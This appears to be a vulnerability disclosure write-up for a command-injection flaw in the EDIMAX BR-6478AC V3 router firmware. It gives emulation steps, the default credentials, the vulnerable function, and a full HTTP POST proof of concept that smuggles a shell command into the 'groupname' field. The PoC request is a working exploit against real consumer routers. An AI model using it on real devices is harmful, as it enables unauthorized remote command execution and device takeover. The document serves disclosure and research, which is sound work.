





# EDIMAX RCE
**description**: a remote-command-execution vulnerability was found on EDIMAX BR-6478AC V3 via the FUN_00461184 function and groupname in /bin/boa


## Firmware
**brand**:edimax   

**product**:AC1200 Wave 2 Dual-Band Gigabit Router   

**version**:BR-6478AC V3 1.0.15  

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 
```
sudo ./run.sh -d edimax ../Desktop/FIRWARE/BR-6478AC_v3_1.0.15.bin 
```
The result of the simulation is as follows and the defalut username is **admin** and default is **1234**: 


using ghidra we can know the action is formDiskCreateGroup

and the relate web page is as follows and url of page is http://192.168.2.1/storage_creategroup.htm:


## analyze
Using ghidra we can know that the post parameter "groupname" will be snprintf as the first input parameter which will be executed

The details of the function as follows:

**addr**:00461378  
**function**: FUN_00461184
**parameter**:groupname


# poc
Burp Suite change the packet as follows
```
POST /boafrm/formDiskCreateGroup HTTP/1.1

Host: 192.168.2.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 109

Origin: http://192.168.2.1

Connection: close

Referer: http://192.168.2.1/storage_creategroup.htm

Cookie: webuicookie=16041635011804289383

Upgrade-Insecure-Requests: 1


Access=r-w&CreateGroup=CreateGroup&submit-url=%2administration.htm&groupname=s2"\necho 1 > /tmp/poc_rce.txt "
```
the result of POC is as follows, you can find the /tmp/poc_rce.txt was created after poc


[1]:https://www.edimax.com/edimax/merchandise/merchandise_detail/data/edimax/global/home_legacy_wireless_routers/br-6478ac_v3